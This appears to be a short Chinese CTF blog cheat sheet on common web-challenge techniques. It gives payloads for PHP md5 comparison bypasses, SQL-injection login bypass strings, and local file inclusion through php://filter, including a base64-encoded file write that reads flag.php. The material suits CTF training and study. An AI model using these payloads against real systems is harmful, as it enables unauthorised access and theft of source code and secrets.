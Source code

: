 ```yaml
---
layout: post
title: "CTF WEB 常见思路"
date: 2019-3-13 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: CTF WEB 题中常见思路 
---
```

## php 备份文件：
1.index.php.bak
2.index.php~
3.index.php.swp
## md5 比较  
### 弱比较：
md5 弱比较，为 0e 开头的会被识别为科学记数法，结果均为 0
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-c5c805c77aab67ee.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/766/format/webp)
#### Payload：
param1=QNKCDZO&param2=aabg7XSs
### 强比较  ：
md5 强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-e54981f5bd5f3c95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/782/format/webp)
#### Payload：
param1[]=111&param2[]=222
## SQL 注入万能密码
用户名：admin' or 1=1-- -
密码任意
用户名：admin '#
密码任意
## 文件包含
### 常见格式：  
http://119.23.73.3:5001/web8/index.php?file=flag.php
### php 伪协议读源码
http://119.23.73.3:5001/web8/index.php?
file=php://filter/read=convert.base64-encode/resource=flag.php
### 利用 php 伪协议来写入文件
file=php://filter/write=convert.base64-decode/resource=./tmp.php&c=aPD9waHAgZWNobyhmaWxlX2dldF9jb250ZW50cygiZmxhZy5waHAiKSk7Pz4=
